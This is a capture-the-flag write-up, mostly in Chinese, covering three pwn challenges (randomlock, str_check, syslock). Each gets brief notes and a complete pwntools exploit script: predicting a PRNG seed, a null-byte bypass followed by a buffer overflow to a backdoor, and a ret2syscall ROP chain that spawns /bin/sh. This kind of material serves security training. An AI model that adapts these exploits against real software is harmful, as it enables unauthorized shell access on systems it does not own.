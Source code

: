 # randomlock

可以通过gdb调试或者直接看出来seed是1（考拉兹猜想）。攻击伪随机数。

```python
from pwn import *
import ctypes
context(os='linux',arch='amd64',log_level='debug')
p=process('./pwn')
elf = ELF('./pwn')
lib = ctypes.CDLL('./1.so')
lib.randd.restype = ctypes.c_int
lib.init()
def se(ss):
    p.sendlineafter(b'>',ss)
for i in range(10):
    u=lib.randd()
    se(str(u).encode())
p.interactive()
```

# str_check

手动输入\0可截断strlen绕过检查。strncpy被截断后会补0，因此选择memcpy

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('localhost',9000)
#p=process('./pwn')
#libc = ELF("./libc.so.6")
#elf = ELF('./pwn')
#gdb.attach(p,'b *0x4013ac')
#pause()
bkd=0x40123b
payload=b'meow\x00'.ljust(0x20+8,b'a')+p64(bkd)
p.sendlineafter(b'say?',payload)
p.sendlineafter('?',b'200')
p.interactive()
```

# syslock

负索引修改进入后门，ret2syscall

```python
from pwn import *
context(os='linux',arch='amd64',log_level='debug')
p=remote('192.168.211.1',11145)
#p=process('./pwn')
#libc = ELF("./libc.so.6")
elf = ELF('./pwn')
#gdb.attach(p)
#pause()
p.sendafter(b'mode\n',b'-32')
payload=p32(0x3b)+b'/bin/sh\x00'
p.sendafter(b'password\n',payload)
rdi_rsi_rdx=0x401240
binsh=0x404084
syscall=0x401230
rax=0x401244
payload=b'a'*(0x40+8)+p64(rdi_rsi_rdx)+p64(binsh)+p64(0)+p64(0)+p64(rax)+p64(0x3b)+p64(syscall)
p.sendafter(b'Developer Mode.\n',payload)
```
